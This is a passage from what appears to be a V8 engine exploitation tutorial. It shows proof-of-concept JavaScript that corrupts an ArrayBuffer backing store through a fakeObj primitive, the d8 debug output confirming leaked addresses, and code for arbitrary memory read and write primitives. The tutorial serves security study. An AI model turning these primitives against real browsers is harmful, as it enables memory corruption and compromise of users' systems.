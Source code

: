 ```js
print("[+] Corrupting ArrayBuffer Backing Store Address...")
let originalArrBuf1BackingStore = fakeObj(arrBuf1, arrBuf2Addr);

// Validate Overwrite of Backing Store via TypedArray
let view1 = new BigUint64Array(arrBuf1)
let originalArrBuf2BackingStore = view1[4]
print(`[+] ArrayBuffer Backing Store: 0x${originalArrBuf2BackingStore.toString(16)}`);
%DebugPrint(arrBuf2)
```

As you can see, at the end of the script to validate the overwrite, we use `%DebugPrint` on our `arrBuf2` object to confirm that we have the correct backing store address.

Executing our code, we get the following output.

```
C:\dev\v8\v8\out\x64.debug>d8 --allow-natives-syntax C:\Users\User\Desktop\poc.js
[+] Finding Overlapping Properties...
[+] Properties p6 and p15 overlap!
[+] Leaking ArrayBuffer Address...
[+] ArrayBuffer Address: 0x7393e19360
[+] Corrupting ArrayBuffer Backing Store Address...
[+] ArrayBuffer Backing Store: 0x15b14db9f20
DebugPrint: 0000007393E19361: [JSArrayBuffer] in OldSpace
 - map: 0x00f8c4384371 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x0075a6d10b21 <Object map = 000000F8C43843C1>
 - elements: 0x00f30a102cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0000015B14DB9F20
 - byte_length: 1024
 - neuterable
 - properties: 0x00f30a102cf1 <FixedArray[0]> {}
 - embedder fields = {
    0000000000000000
    0000000000000000
 }
```

And it works! As you can see in the output, we have successfully leaked the address of the second array buffer and read its backing store pointer, which all match. From here, we can continue building out our memory read and write primitives via our array buffers.

Since all address in within V8 are 32-bit, we'll use the 64-bit unsigned integer typed array. An example of a read and write primitive built from the example above code can be seen below.

```js
let memory = {
	read64(addr) {
		view1[4] = addr;
		let view2 = new BigUint64Array(arrBuf2);
		return view2[0];
	},
	write64(addr, ptr) {
		view1[4] = addr;
		let view2 = new BigUint64Array(arrBuf2);
		view2[0] = ptr;
	}
};
```
